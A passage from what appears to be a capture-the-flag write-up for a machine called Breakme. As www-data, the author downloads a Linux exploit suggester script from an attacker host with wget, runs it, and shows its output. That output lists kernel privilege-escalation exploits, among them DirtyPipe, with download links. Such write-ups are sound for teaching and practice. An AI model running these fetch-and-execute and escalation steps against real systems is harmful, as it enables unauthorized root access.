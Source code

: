 
Then i ran linux suggester to figure out what CVEs to use: 

```bash
www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/les.sh -O /tmp/les.sh
<get http://10.10.146.120:8000/les.sh -O /tmp/les.sh
--2024-09-21 10:16:14--  http://10.10.146.120:8000/les.sh
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90858 (89K) [text/x-sh]
Saving to: \u2018/tmp/les.sh\u2019

/tmp/les.sh         100%[===================>]  88.73K  --.-KB/s    in 0.001s  

2024-09-21 10:16:14 (172 MB/s) - \u2018/tmp/les.sh\u2019 saved [90858/90858]

www-data@Breakme:/home/john$ chmod +x /tmp/les.sh
chmod +x /tmp/les.sh
```

Found out that dirtypipe is possible: 

```bash
www-data@Breakme:/home/john$ /tmp/les.sh
/tmp/les.sh

Available information:

Kernel version: 5.10.0
Architecture: x86_64
Distribution: debian
Distribution version: 11
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops

   Details: https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story
   Exposure: probable
   Tags: ubuntu=20.04{kernel:5.8.0-(25|26|27|28|29|30|31|32|33|34|35|36|37|38|39|40|41|42|43|44|45|46|47|48|49|50|51|52)-*},ubuntu=21.04{kernel:5.11.0-16-*}
   Download URL: https://codeload.github.com/chompie1337/Linux_LPE_eBPF_CVE-2021-3490/zip/main
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
```